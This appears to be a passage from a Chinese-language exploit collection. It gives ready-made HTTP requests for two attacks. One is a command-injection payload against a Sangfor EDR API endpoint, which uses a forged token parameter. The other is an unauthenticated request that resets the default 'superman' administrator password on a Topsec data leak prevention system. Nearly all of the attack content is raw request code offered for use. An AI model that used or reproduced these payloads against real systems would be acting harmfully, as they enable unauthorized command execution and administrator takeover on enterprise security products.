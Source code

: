 - **2020.09命令执行**
    - POC | Payload | exp
        ```
        POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
        {"params":"w=123\"'1234123'\"|命令"}
        ```

---

## 数据防泄漏系统

**天融信数据防泄漏系统**
- **越权修改管理员密码**
    ```
    无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

    POST /?module=auth_user&action=mod_edit_pwd

    Cookie: username=superman;
    uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
    ```
